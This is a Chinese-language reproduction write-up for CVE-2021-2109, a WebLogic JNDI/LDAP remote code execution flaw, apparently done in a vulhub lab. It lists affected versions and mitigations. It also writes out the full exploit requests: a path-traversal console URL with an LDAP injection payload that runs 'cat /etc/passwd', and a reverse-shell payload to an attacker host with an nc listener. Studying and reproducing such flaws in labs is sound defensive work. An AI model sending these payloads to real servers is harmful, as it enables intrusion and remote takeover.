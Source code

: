 # CVE-2021-2109 WebLogic LDAP远程代码执行漏洞

## Description

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

* WebLogic Server 10.3.6.0.0
* WebLogic Server 12.1.3.0.0
* WebLogic Server 12.2.1.3.0
* WebLogic Server 12.2.1.4.0
* WebLogic Server 14.1.1.0.0

## Explanation of exploit; PoC

### 运行靶场环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://your-ip:7001`，看到如下页面即为靶场正常运行。

![](images/cve-2021-2109-1.png)

### 漏洞复现

访问URL: `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`, 可以看到如下页面，且在影响范围内则可能存在漏洞。

![](images/cve-2021-2109-2.png)

下载漏洞攻击需要的一款用于JNDI注入利用的工具，该工具大量参考/引用了 Rogue JNDI 项目的代码，支持直接植入内存shell，并集成了常见的bypass 高版本JDK的方式，适用于与自动化工具配合使用。

![](images/cve-2021-2109-3.png)

- 使用 `java -jar JNDIExploit.jar -h` 查看参数说明，其中 `--ip` 参数为必选参数
- 使用 `java -jar JNDIExploit.jar -u` 查看支持的 LDAP 格式

在 kali 运行工具启动 LDAP 服务，`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i xxx.xxx.xxx.xxx`，其中 `xxx.xxx.xxx.xxx` 为 kali 的 IP 地址。

![](images/cve-2021-2109-4.png)

**RCE**

刷新 `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal` 页面，并通过 Burp Suite 拦截请求，发送到 Repeater，修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
`，并添加参数 `cmd` 值为 `cat /etc/passwd`，点击 `Send`，即可看到如下页面，即为成功利用漏洞。

???+ tip "Payload 注意"
    
    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`

![](images/cve-2021-2109-5.png)

**反弹 Shell**

先在 kali 监听 4444 端口，`nc -lvvp 4444`

然后在 Burp Suite 中修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/ReverseShell/xxx.xxx.xxx.xxx/4444;AdminServer%22)`

???+ tip "Payload 注意"
    
    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`

![](images/cve-2021-2109-6.png)

看到如下页面，即为成功利用漏洞。

![](images/cve-2021-2109-7.png)

## Mitigation

![](images/cve-2021-2109-8.png)

1. 由于是通过JNDI注入进行远程代码执行，建议升级Weblogic Server运行环境的JDK版本；
2. 升级官方安装补丁：[https://www.oracle.com/security-alerts/cpujan2021.html](https://www.oracle.com/security-alerts/cpujan2021.html)

## 参考链接

1. [漏洞分析见](https://mp.weixin.qq.com/s/wX9TMXl1KVWwB_k6EZOklw)
2. [调试分析参考](https://mp.weixin.qq.com/s/WtoUzPEgLlU8jUzvzC75Dg)
3. [Oracle 发布2021年1月关键补丁更新，修复多个严重漏洞](https://mp.weixin.qq.com/s/gRgrzgkgeehT1DnnlnqQKw)
